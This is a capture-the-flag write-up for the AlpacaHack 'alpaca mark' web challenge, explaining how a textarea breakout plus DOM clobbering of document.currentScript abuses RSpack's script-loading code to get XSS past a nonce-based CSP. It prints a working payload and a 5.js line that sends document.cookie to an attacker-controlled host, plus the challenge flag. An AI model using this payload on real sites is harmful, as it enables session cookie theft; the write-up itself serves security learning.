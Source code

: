 ---
title: 'AlpacaHackCTF-2025'
description: 'writeups for Alpaca Hack CTF WEB round 8 solo ctf'
date: 2025-04-28
image: './alpaca.png'
---

# Introduction

alpaca mark is a web client side challenge that is Simple markdown noting taking application with EJS backend.


## Unintended solution

tldr , break out of <textarea/> template to get html injection. [RSpack](https://github.com/advisories/GHSA-84jw-g43v-8gjm) third party package is vulnerable to Dom clobbering. 
Use the Dom clobbering to load our own script to allow the csp to get xss.


```JavaScript
app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  res.render("index", {
    nonce,
    markdown,
  });
});
```

Html isn't filtered so there's potential to get xss but the csp is strict and has a random nonce.
 In these kind of scenarios the only way to get xss with a random nonce csp is we have to find a script gadget that will load our own script in.

```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <title>AlpacaMark</title>
    <script nonce="<%= nonce %>" src="/main.js" defer></script>
    <link href="/main.css" rel="stylesheet" />
  </head>
  <body>
    <main class="container">
      <h1>AlpacaMark</h1>
      <div id="previewElm"></div>
      <form id="renderElm" action="/" method="get">
        <textarea name="markdown" required><%- markdown %></textarea>
        <button type="submit">Render</button>
      </form>
    </main>
  </body>
</html>
```

Since there isn't hmtl or markdown filtering we can break out of the textarea then include our own Html like this: `</textarea> html injection` . 
No need to close it since the browser will automatically do it when it renders. 

Now we have to find a script gadget which I struggled at first because I couldn't find it in the given source code. 
I noticed that the client side code uses a third party package RSpack.

```JavaScript
import { defineConfig } from "@rspack/cli";  
  
export default defineConfig({  
entry: {  
main: "./client/index.js",  
},  
experiments: {  
css: true,  
},  
devtool: false,
```

I decided to start debugging and looking through the client side code with devtools perhaps we could find a script in there. It was a bit difficult to read and debug since its minified code but I just grepped `script` and set a few breakpoints. 
we do indeed find something :  

![Alt text for the image](./devtools.png)


In main.js RSpack attempts to load a external script called `5.js` dynamically with this code :


 ```JavaScript
 ( () => {
        r.g.importScripts && (e = r.g.location + "");
        var e, t = r.g.document;
        if (!e && t && (t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            if (n.length)
                for (var s = n.length - 1; s > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[s--].src
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        r.p = e = e.replace(/^blob:/, "").replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/")
    }
    )(),
    ```

 The end result here is to note that it automatically determines the base path where assets should be loaded from, based on the location of the currently executing script.


I thought maybe since we have dom clobbering we could use it to insert our own script but looking at this code it actually tries to stop against Dom clobbering: 

```JavaScript
(t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            ```
But this isn't fully mitigated! If we clobber `currentScript` the check will fail but will then check all script tags on the page document and load scripts from the base url found in the script tags. 
Also if you look at the html source code we can see that main.js will load after our payload renders because `main.js` is loaded with `defer`. 
So essentially we can hijack `5.js `if we name our script that and once it renders , `main.js` will load after due to using `defer` then RSpack will load our script.


 a payload like this should work :

```JavaScript
</textarea><img name="currentScript"><script src="https://oursite/5.js"></script>
```

in 5.js :
```JavaScript
top.location = 'https://oursite/flag?' + document.cookie 
```

submit that to the admin bot and we should get the flag : `Alpaca{the_DOM_w0rld_is_po11uted_and_clobber3d}`

the intended solution apparently involved a prototype pollution but I'm not sure how that would work in this challenge will have to wait on the author :)